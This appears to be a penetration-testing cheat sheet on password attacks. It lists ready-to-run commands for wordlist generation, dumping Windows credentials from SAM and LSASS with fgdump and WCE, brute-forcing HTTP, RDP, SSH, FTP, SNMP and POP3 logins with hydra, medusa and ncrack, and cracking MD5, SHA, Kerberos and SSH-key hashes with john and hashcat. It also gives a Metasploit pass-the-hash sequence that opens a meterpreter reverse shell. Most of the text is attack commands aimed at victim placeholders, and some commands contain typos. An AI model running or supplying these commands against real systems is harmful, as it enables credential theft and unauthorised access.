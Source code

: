 - [Password generator](#Password-generator)
- [Windows](#Windows)
- [Password cracking](#Password-cracking)
- [Password hash cracking](#Password-hash-cracking)
- [Pass the hash](#Pass-the-hash)
- [SSH key cracking](#SSH-key-cracking)
- [tools](#tools)
 
# Password generator

Crunch: 
  - is a wordlist generator where you can specify a standard character set or a character set you specify.

- crunch 6 6 1234567890ABCDE -o <file.txt>
  - ***6*** min length
  - ***6*** max length
  - ***1234567890ABCDE*** charset
  - ***o*** seve result in file
 
- crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha
  - ***f*** dictionary path
  
- special chars
  - @ lower case alpha char
  - , upper case alpha char
  - % numeric charset
  - ^ special char include space
  
Cewl:
- cewl <victim_www_url> -d [num] -m [num] -w [file.txt]
------------------------------------------------------------------------------------------------------------------------
# Windows  

- pwdump fgdump
MS Windows store hased user password in the ***Security account manager (SAM)***
pwdump and fgdump inject a DLL containning the hash dumping code into the ***Local Security Authority Subsystem (LSASS)***

***- c:\> fgdump.exe ***
***- c:\> type 127.0.0.1.pwdump ***

- WCE
- WCE can steal NTLM credentails from memory and dump clear text password
***- c:\> WCE -w ***
------------------------------------------------------------------------------------------------------------------------
# Password cracking

- HTTP
```
medusa -h [url] -u [user_name] -p [password_file.txt] -M http
- hydra [target_url] -l [user_name] -P [password_file] https-post-form 
/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```
- RDP
```
ncrack -vv --user [user_name] -P [password_file.txt] rdp://[victim_ip]
```
- SNMP 
``` 
hydra -P [password-file.txt] -v [victim_ip] snmp
```
- SSH 
```
hydra -l [user_name] -P [password_file.txt] [victim_ip] ssh
```
- FTP 
```
hyrda -L [user_file] -p [password] [victim_ip] ftp
```
- POP3 
```
hyrda -L [user_file] -P [password_file.txt] [victim_ip] -s [victim_port] -t 50 -I pop3

Usefull flag
- -vV : verbose mode
- -e nsr : login as password or login as password in reversed order etc
- -t : threads
```
------------------------------------------------------------------------------------------------------------------------
# Password hash cracking

- Hash identifier
```
usage: 

hash-identifier
```
- MD5
```
john --format=raw-md5 --wordlist=rockyou.txt [hash.file]
```
- SHA1
```
john --format=raw-sha1 --wordlist=rockyou.txt [hash.file]
```
- SHA256
```
john --format=raw-sha256 --wordlist=rockyou.txt [hash.file]
```
- SHA512
```
john --format=raw-sha512 --wordlist=rockyou.txt [hash.file]
```
- krb5tgs 
```
hashcat -m 13100 --force -a 0 hashes.file passwords.txt 

john --format=krb5tgs --wordlist=passwords.txt hashes.file
```
- AS REP
```
john --wordlist=passwords_kerb.txt hashes.file

hashcat -m 18200 --force -a 0 hashes.file passwords.txt
```
------------------------------------------------------------------------------------------------------------------------
# Pass the hash

- Dump the contents of local SAM file, which contains the hashed(NTLM) passwords for every local account on the machine
```
meterpreter> hashdump
```

- psexec via msfconsole
```
msf> search psexec

msf> use exploit/windows/smb/psexec

msf> set payload widnows/meterpreter/reverse_tcp
msf> set LHOST <your_ip>
msf> set LPORT <your_port>
msf> set RHOST <target_ip>
msf> set SMBPass e.g (e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c)
msf> exploit
```

------------------------------------------------------------------------------------------------------------------------

# SSH key cracking

### Cracking encrypted private key
- Tool: ssh2john.py
```
ssh2john.py encrypted-private-key > private-key.john
```

- Tool: john
```
john --wordlist=/usr/share/wordlists/rockyou.txt private-key.john
```

### Unencrypted copy of the key
- Tool: openssl
```
openssl rsa -in encrypted-private-key -out id_rsa
```

- Tool: chmod
```
chmod 600 id_rsa
```

### Login with id_rsa
```
ssh -i id_rsa user-name@<ip>
```

------------------------------------------------------------------------------------------------------------------------
# tools
- https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py
